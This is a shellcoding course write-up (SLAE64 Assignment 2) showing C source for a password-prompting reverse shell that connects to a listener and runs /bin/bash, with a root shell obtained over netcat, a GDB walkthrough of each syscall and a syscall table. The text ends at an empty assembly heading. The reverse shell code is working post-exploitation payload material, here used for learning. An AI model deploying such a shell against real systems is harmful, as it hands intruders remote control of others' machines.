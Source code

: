 ```yaml
---
title: SLAE64 Assignment 2 - Password Protected Reverse Shell
date: 2020-4-06
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Reverse
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)


# C Reverse Shell 
I first created a skelton reverse shell using the C language to reverse engineer the work needed to be done for the assembly shellcode version.

## revshell.c
```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/ip.h> /* superset of previous */
#include <stdlib.h>
int main(void)
{
	int ipv4Socket = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
	struct sockaddr_in ipSocketAddr = { 
        .sin_family = AF_INET, 
        .sin_port = htons(4444), 
        .sin_addr.s_addr = inet_addr("127.1.1.1") 
    };
	connect(ipv4Socket, (struct sockaddr*)&ipSocketAddr, sizeof(ipSocketAddr)); 
	dup2(ipv4Socket, 0); // Standard Input
	dup2(ipv4Socket, 1); // Standard Output
	dup2(ipv4Socket, 2); // Standard Error
    write(ipv4Socket, "Mothers Maiden Name?", 20); 
    char buff[4];
    read(ipv4Socket, buff, 4);
	execve("/bin/bash", NULL, NULL);
}	
```
+ Password checking will be done in assembly and is not included in the C skeleton program.

## Compiling & Testing
```bash
root# gcc revshell.c -o revshell
root# ./revshell 
────────────────────────────────────────────────────────────
root# nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.1.1.1] from (UNKNOWN) [127.0.0.1] 44006
Mothers Maiden Name?1337
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```

## C Reverse Shell GDB Analysis
```bash
root# gdb ./revshell
db-peda$ info functions
0x0000000000001030  write@plt
0x0000000000001040  htons@plt
0x0000000000001050  dup2@plt
0x0000000000001060  read@plt
0x0000000000001070  execve@plt
0x0000000000001080  inet_addr@plt
0x0000000000001090  connect@plt
0x00000000000010a0  socket@plt
gdb-peda$ b socket
Breakpoint 1 at 0x10a0
gdb-peda$ r
```

### 1 - Socket
```bash
[----------------------code----------------------]
=> 0x7ffff7edf8d0 <socket>:     mov    eax,0x29
   0x7ffff7edf8d5 <socket+5>:   syscall
[-------- Registers at time System Call ---------]
RAX: 0x29
RDI: 0x2 
RSI: 0x1 
RDX: 0x0 
```

### 2 - Connect
```bash
[-------- Registers at time System Call ---------]
RAX: 0x2a
RDI: 0x3 <- Socket FD returned from socket()
RSI: 0x7fffffffe120 --> 0x101017f5c110002
  gdb-peda$ hexdump $rsi 16
  0x00007fffffffe120 : 
    02 00 11 5c 7f 01 01 01 00 00 00 00 00 00 00 00
  AF_INET|4444 |127.1. 1. 1 [----Leave as Nulls----]
RDX: 0x10 <- Struct Size (16 bytes)
```

### 3 - Dup2
```bash
[----------------------code----------------------]
=> 0x7ffff7ed0020 <dup2>:       mov    eax,0x21
   0x7ffff7ed0025 <dup2+5>:     syscall 
[-------- Registers at time System Call ---------]
RAX: 0x21
RDI:  0x3 <- Socket FD returned from socket()
RSI: 0x0, 0x1, 0x2
```

### 4 - Write
```bash
[-------- Registers at time System Call ---------]
RAX: 0x1
RDI: 0x3 <- Socket FD returned from socket()
RSI: 0x55555555600e ("Mothers Maiden Name?")
RDX: 0x14 <- Size of String (20 bytes)
```

### 5 - Read
```bash
[-------- Registers at time System Call ---------]
RAX: 0x0
RDI: 0x3 <- Socket FD returned from socket()
RSI: &Destination
RDX: 0x4 <- Size of String to read
```

### 6 - Execve
```bash
[----------------------code----------------------]
=> 0x7ffff7eabe80 <execve>:     mov    eax,0x3b
   0x7ffff7eabe85 <execve+5>:   syscall 
[-------- Registers at time System Call ---------]
RAX: 0x3b
RDI: 0x555555556023 ("/bin/bash")
  gdb-peda$ hexdump $rdi
  0x0000555555556023 : 2f 62 69 6e 2f 62 61 73 68 00  /bin/bash.
RSI: 0x0
RDX: 0x0
```

### Sys Calls
```bash
root# cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | \
egrep "(connect|execve |write |read |socket |dup2)"
#define __NR_read 0       => \x00
#define __NR_write 1      => \x01
#define __NR_dup2 33      => \x21
#define __NR_socket 41    => \x29
#define __NR_connect 42   => \x2a
#define __NR_execve 59    => \x3b
```


# Assembly
